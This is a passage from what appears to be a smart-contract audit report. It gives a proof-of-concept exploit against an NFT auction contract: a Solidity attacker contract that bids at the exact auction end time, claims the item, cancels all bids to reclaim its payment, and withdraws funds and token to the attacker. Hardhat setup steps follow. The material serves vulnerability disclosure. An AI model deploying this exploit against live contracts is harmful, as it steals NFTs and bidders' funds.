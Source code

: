 ```solidity
        minterContract = IMinterContract(_minterContractAddress);
        auctionContract = IAuctionDemo(_auctionContractAddress);
        gencoreContract = IERC721(_gencoreContractAddress);
    }

    // main attack function
    function bidAttack(uint256 _tokenId) public payable onlyOwner {
        tokenId = _tokenId;
        // check if the current block.timestamp is last
        require(block.timestamp == minterContract.getAuctionEndTime(_tokenId), "Wrong block.timestamp");

        // place a bid
        auctionContract.participateToAuction{value: msg.value}(_tokenId);

        // claimAuction
        auctionContract.claimAuction(_tokenId);

        // call cancelBid on the last block.timestamp
        auctionContract.cancelAllBids(_tokenId);
    }

    // withdraw funds and token to the attacker EOA account
    function withdraw() public {
        (bool success,) = payable(owner()).call{value: address(this).balance}("");
        require(success, "Withdrawal failed");
        gencoreContract.safeTransferFrom(address(this), owner(), tokenId);
    }

    // receive the funds and withdraw to attackerEOA
    receive() external payable {
        withdraw();
    }

    function onERC721Received(address operator, address from, uint256 tokenId, bytes calldata data)
        external
        returns (bytes4)
    {
        return IERC721Receiver.onERC721Received.selector;
    }
}
```

2. Edit `hardhat/scripts/fixtureDeployments.js`by adding attackerEOA signer, deploying `AuctionDemo.sol` and `BidAttacker.sol` contracts. Updated `fixtureDeployments.js` file example:

The edits are highlighted with "POC" tag in comments 
```js
  File: hardhat/scripts/fixtureDeployments.js

const { ethers } = require("hardhat")

// Setup test environment:
const fixturesDeployment = async () => {
  const signersList = await ethers.getSigners()
  const owner = signersList[0]
  const addr1 = signersList[1]
  const addr2 = signersList[2]
  const addr3 = signersList[3]
  const attackerEOA = signersList[4]; // for POCs


  const delegation = await ethers.getContractFactory(
    "DelegationManagementContract",
```